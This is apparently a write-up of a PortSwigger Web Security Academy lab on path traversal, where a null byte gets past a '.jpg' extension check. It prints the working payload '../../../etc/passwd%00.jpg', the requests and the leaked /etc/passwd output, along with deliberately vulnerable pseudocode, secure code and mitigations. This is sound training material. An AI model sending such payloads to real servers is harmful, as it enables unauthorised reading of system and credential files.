


# Lab 06: File Path Traversal, Validation of File Extension with Null Byte Bypass

> **Topic**: Path Traversal
> **Lab Number**: 06
> **Platform**: PortSwigger Web Security Academy

## Category
Path Traversal — Null Byte Injection to Bypass File Extension Validation

## Vulnerability Summary
The application serves product images via `GET /image?filename=<value>` and validates that the filename ends with an allowed image extension (e.g., `.jpg`). The check is performed on the raw string, but the value is then passed to a lower-level file-open function that treats the null byte (`\x00`, URL-encoded as `%00`) as a string terminator. By injecting `%00` between the traversal payload and the required `.jpg` suffix, the extension check sees a valid `.jpg` ending while the filesystem open call truncates the string at the null byte and reads only `../../../etc/passwd`.

## Attack Methodology

### Step 1: Identify the Image Endpoint
```http
GET /image?filename=45.jpg HTTP/2
Host: 0ad400b8035ed30c82ff5bfd009c0095.web-security-academy.net
Cookie: session=4xe8dnauhZnVycQnh2A1v4k5tsdfphM9
```

### Step 2: Test Extension Bypass Without Traversal (Blocked)
```http
GET /image?filename=/etc/passwd%00.jpg HTTP/2
```
Response: `HTTP/2 400 Bad Request` — `"No such file"`. The absolute path is blocked by a separate check.

### Step 3: Combine Traversal with Null Byte Extension Bypass
The filter checks that the filename ends with `.jpg`. Appending `%00.jpg` after the traversal payload satisfies this check:

```
../../../etc/passwd%00.jpg
                   ↑
            null byte here

String check sees:  ../../../etc/passwd\x00.jpg  → ends with .jpg ✅
OS file open reads: ../../../etc/passwd           → stops at \x00 ✅
```

### Step 4: Send the Payload

```http
GET /image?filename=../../../etc/passwd%00.jpg HTTP/2
Host: 0ad400b8035ed30c82ff5bfd009c0095.web-security-academy.net
Cookie: session=4xe8dnauhZnVycQnh2A1v4k5tsdfphM9
```

### Step 5: Server Returns `/etc/passwd`

```http
HTTP/2 200 OK
Content-Type: image/jpeg
X-Frame-Options: SAMEORIGIN
Content-Length: 2316

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
...
peter:x:12001:12001::/home/peter:/bin/bash
carlos:x:12002:12002::/home/carlos:/bin/bash
user:x:12000:12000::/home/user:/bin/bash
...
```

200 OK with full `/etc/passwd` contents. Lab solved.





## Technical Root Cause

### Vulnerable Code (Pseudocode)
```python
import os
import ctypes  # or a C extension / legacy framework

IMAGE_DIR = '/var/www/images'

def serve_image(request):
    filename = request.GET.get('filename', '')
    # Extension check on Python string (null byte does not terminate Python strings)
    if not filename.endswith('.jpg'):
        return HttpResponseForbidden('Invalid file type')
    # Path passed to C-level open() which treats \x00 as string terminator
    path = os.path.join(IMAGE_DIR, filename)
    with open(path, 'rb') as f:   # underlying C open() truncates at \x00
        return HttpResponse(f.read(), content_type='image/jpeg')
```

Python strings are null-byte safe — `filename.endswith('.jpg')` returns `True` for `../../../etc/passwd\x00.jpg`. But when the path is passed to the OS `open()` syscall (via C's `fopen`), the C runtime treats `\x00` as the end of the string, so the actual path opened is `../../../etc/passwd`.

### The Null Byte Mismatch

```
Python layer:   "../../../etc/passwd\x00.jpg"  → endswith('.jpg') = True
C/OS layer:     "../../../etc/passwd"           → \x00 terminates the string
```

This mismatch exists in any language or framework where the validation layer is null-byte-aware but the underlying file I/O is not (C extensions, legacy PHP, older Java APIs, etc.).

### Secure Code
```python
import os

IMAGE_DIR = '/var/www/images'

def serve_image(request):
    filename = request.GET.get('filename', '')
    # Reject null bytes explicitly
    if '\x00' in filename:
        return HttpResponseForbidden('Invalid filename')
    # Allowlist extension
    if not filename.endswith(('.jpg', '.jpeg', '.png', '.gif', '.webp')):
        return HttpResponseForbidden('Invalid file type')
    # Canonical path boundary check
    path = os.path.realpath(os.path.join(IMAGE_DIR, filename))
    if not path.startswith(IMAGE_DIR + os.sep):
        return HttpResponseForbidden('Access denied')
    with open(path, 'rb') as f:
        return HttpResponse(f.read(), content_type='image/jpeg')
```

Explicitly rejecting null bytes before any other check closes the bypass regardless of what the underlying file I/O layer does.

## Impact
- **Extension Check Completely Bypassed**: Any string-level extension validation is defeated by null byte injection when the underlying I/O is C-based
- **Arbitrary File Read**: Any file readable by the web server process is accessible
- **No Authentication Required**: The endpoint is publicly accessible

**Severity: High**

## Proof of Concept

```
GET /image?filename=../../../etc/passwd%00.jpg HTTP/2
Host: <lab-id>.web-security-academy.net
```

Response: `HTTP/2 200 OK` with full `/etc/passwd` contents.

## Key Takeaways
1. **Null Bytes Are an Injection Vector**: `%00` (URL-encoded null byte) is a classic injection technique that exploits the mismatch between high-level string handling (null-byte safe) and low-level C string handling (null-byte terminates). Always strip or reject null bytes from user input before any processing.
2. **Extension Checks on Raw Strings Are Insufficient**: `endswith('.jpg')` passes for `passwd\x00.jpg`. Extension validation must be combined with null byte rejection and canonical path checking to be effective.
3. **Layer Mismatch Is the Root Cause**: The vulnerability exists because two layers of the stack disagree on what the string is. The Python layer sees the full string including `.jpg`; the C layer sees only up to `\x00`. Whenever validation and execution happen at different layers, mismatches like this can be exploited.
4. **Modern Runtimes Are Less Susceptible**: Python 3's `open()` raises `ValueError: embedded null byte` when a null byte is in the path. This lab works because the server uses a C extension or legacy framework that doesn't perform this check. Always verify what your runtime does with null bytes in file paths.

## Mitigation

### 1. Reject Null Bytes Explicitly
```python
if '\x00' in filename or '%00' in filename:
    abort(400)
```

### 2. Allowlist Filename Format (Strongest — eliminates all variants)
```python
import re
if not re.fullmatch(r'[a-zA-Z0-9_\-]+\.(jpg|jpeg|png|gif|webp)', filename):
    abort(400)
```
A strict allowlist regex rejects null bytes, traversal sequences, and unexpected extensions in a single check.

### 3. Canonical Path + Boundary Check
```python
path = os.path.realpath(os.path.join(IMAGE_DIR, filename))
if not path.startswith(IMAGE_DIR + os.sep):
    abort(403)
```

All three defences should be applied in combination.

## References
- [PortSwigger — File Path Traversal, Validation of File Extension with Null Byte Bypass](https://portswigger.net/web-security/file-path-traversal/lab-validate-file-extension-null-byte-bypass)
- [PortSwigger — Path Traversal](https://portswigger.net/web-security/file-path-traversal)
- [OWASP — Null Byte Injection](https://owasp.org/www-community/attacks/Null_Byte_Injection)
- [CWE-22: Improper Limitation of a Pathname to a Restricted Directory](https://cwe.mitre.org/data/definitions/22.html)
- [CWE-626: Null Byte Interaction Error](https://cwe.mitre.org/data/definitions/626.html)

## Tools Used
- Burp Suite Professional (Proxy, Repeater)
- Chromium

---

*Lab completed on: 2026-05-08*  
*Writeup by vibhxr*
